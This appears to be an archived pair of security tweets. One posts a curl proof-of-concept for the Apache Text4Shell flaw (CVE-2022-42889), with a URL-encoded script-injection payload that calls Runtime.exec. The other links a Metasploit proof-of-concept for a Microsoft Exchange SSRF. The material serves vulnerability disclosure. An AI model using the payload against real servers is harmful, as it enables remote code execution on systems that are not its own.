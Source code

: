 # wugeej
**https://twitter.com/wugeej/status/1583323497681817600 _at 2022-10-21, 05:05:13_**
<blockquote>
Apache Text4Shell (CVE-2022-42889)

PoC
curl http://localhost/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.get.Runtime%28%29.exec%28%5C%27%27%2E%74%72%69%6D%28%24%63%6D%64%29%2E%27%5C%27%29%7D

https://t.co/WdlwKBOBxZ
https://t.co/KXmFl2VAJf https://t.co/x0WDS8J6rV
</blockquote>

* https://sysdig.com/blog/cve-2022-42889-text4shell/?fbclid=IwAR390dT6t-APZtG9HJiUaWYWY-MARztD_-Z2ggwEbaYngaTaCvXCRar2sk8
* https://github.com/ClickCyber/cve-2022-42889

<table><tr>
<td><img src="pictures/5451f52372c61f919d53d145cd323c7a49ff2a787fe1720b978c1c0a850449c4.jpg" alt="5451f52372c61f919d53d145cd323c7a49ff2a787fe1720b978c1c0a850449c4.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>508</code></td>
<td>Favorites: <code>1242</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1583036740565991425 _at 2022-10-20, 10:05:45_**
<blockquote>
Metasploit script(POC) about CVE-2022-41040. Microsoft Exchange are vulnerable to a server-side request forgery (SSRF) attack. An authenticated attacker can use the vulnerability to elevate privileges.

https://t.co/t620czZG8D
</blockquote>
